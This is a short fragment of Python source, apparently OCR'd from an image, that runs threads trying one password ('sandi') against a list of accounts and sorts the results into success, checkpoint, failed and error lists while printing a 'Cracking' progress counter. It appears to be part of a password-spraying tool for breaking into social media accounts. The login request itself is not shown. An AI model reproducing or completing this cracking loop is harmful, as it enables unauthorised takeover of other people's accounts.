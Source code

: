 	th = []

	for i in data:

		i = i.replace(' ','')

		if len(i) != 0:th.append(mt(i,sandi))

	for i in th:

		jml1 += 1

		i.daemon = True

		try:i.start()

		except KeyboardInterrupt:exit()

	while 1:

		try:

			for i in th:

				a = i.update()

				if a[0] != 3 and a[1] not in akun_jml:

					jml0 += 1

					if a[0] == 2:

						akun_cekpoint.append(a[1])

					elif a[0] == 1:

						akun_sukses.append(a[1])

					elif a[0] == 0:

						akun_gagal.append(a[1])

					elif a[0] == 8:

						akun_error.append(a[1])

					print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m%0.2f%s\033[31;1m]\033[0m'%(float((float(jml0)/float(jml1))*100),'%'),end='')

					os.sys.stdout.flush()

					akun_jml.append(a[1])

		except KeyboardInterrupt:

			os.sys.exit()

		try:

			if threading.activeCount() == 1:break

		except KeyboardInterrupt:

			keluar()
